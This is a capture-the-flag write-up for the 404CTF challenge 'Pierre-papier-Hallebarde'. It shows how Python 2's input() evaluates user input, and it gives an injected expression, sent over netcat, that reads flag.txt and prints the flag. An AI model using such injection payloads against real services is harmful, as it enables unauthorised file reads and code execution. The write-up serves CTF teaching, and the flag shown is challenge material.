 # Misc / Pierre-papier-Hallebarde

## Challenge
Hallebarde a mis en place sa variante du Pierre-papier-ciseaux. À ce jour, personne de nos services n'est parvenu à vaincre l'ordinateur. Montrez-leur de quoi vous êtes capable en récupérant leur précieux flag.txt !

## Inputs
- server: `challenge.404ctf.fr:30806`
- Python script: [pierre-papier-hallebarde.py](./pierre-papier-hallebarde.py)

## Solution
It is worth noting:
- the python script is based on Python `v2.7`, which is deprecated
- the python script is called with option `-u`, which, as the man page says `Force  stdin,  stdout  and  stderr to be totally unbuffered`

Let's run the code and see what it does. Essentially, whatever integer is provided, we either loose or hit an invalid choice.

```console
$ chmod +x ./pierre-papier-hallebarde.py
$ ./pierre-papier-hallebarde.py
Bienvenue sur pierre-papier-Hallebarde !
La pierre bat la Hallebarde, le papier bat la pierre et la Hallebarde bat le papier
Pour jouer entrez un chiffre entre 1 et 3 :
1 : pierre
2 : papier
3 : Hallebarde
Choix ?
> 1
Vous avez choisi : pierre. L'ordinateur a choisi : papier.
Vous avez perdu...
Choix ?
> 2
Vous avez choisi : papier. L'ordinateur a choisi : Hallebarde.
Vous avez perdu...
Choix ?
> 3
Vous avez choisi : Hallebarde. L'ordinateur a choisi : pierre.
Vous avez perdu...
Choix ?
> 4
Choix invalide. Vous avez perdu
```

Also, non-integers values are not accepted.

Interestingly, we can have `code execution`, like when providing `decision(2,3)` for instance, although this does not help since we again systematically loose:
```console
$ ./pierre-papier-hallebarde.py
Bienvenue sur pierre-papier-Hallebarde !
La pierre bat la Hallebarde, le papier bat la pierre et la Hallebarde bat le papier
Pour jouer entrez un chiffre entre 1 et 3 :
1 : pierre
2 : papier
3 : Hallebarde
Choix ?
> decision(2,3)
Vous avez choisi : papier. L'ordinateur a choisi : Hallebarde.
Vous avez perdu...
```

So there's no way to hit where `flag.txt` is open and contents printed out in the code. Instead, let's dig into the code execution, which lies in this line:
```python
	choix_utilisateur = int(input("Choix ?\n> "))
```

Vulnerability: `input()` is known to be prone to code execution in python 2.x and `raw_input()` shall be used instead. Essentially `input()` is equivalent to `eval(raw_input)`, as explained here for example https://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html

So we want a oneliner command that opens `flag.txt`, reads its contents and writes it to `stdout`. This will we evaluated and then cast into a int, which obviously will fail. So The `-u` option comes handy, as it should allow stdout to be flushed immediately before the program actually fails.
```console
$ nc challenge.404ctf.fr 30806
Bienvenue sur pierre-papier-Hallebarde !
La pierre bat la Hallebarde, le papier bat la pierre et la Hallebarde bat le papier
Pour jouer entrez un chiffre entre 1 et 3 :
1 : pierre
2 : papier
3 : Hallebarde
Choix ?
> __import__("sys").stdout.write(open("flag.txt","r").read())
404CTF{cH0iX_nUm3r0_4_v1c701r3}
```

## Flag
404CTF{cH0iX_nUm3r0_4_v1c701r3}
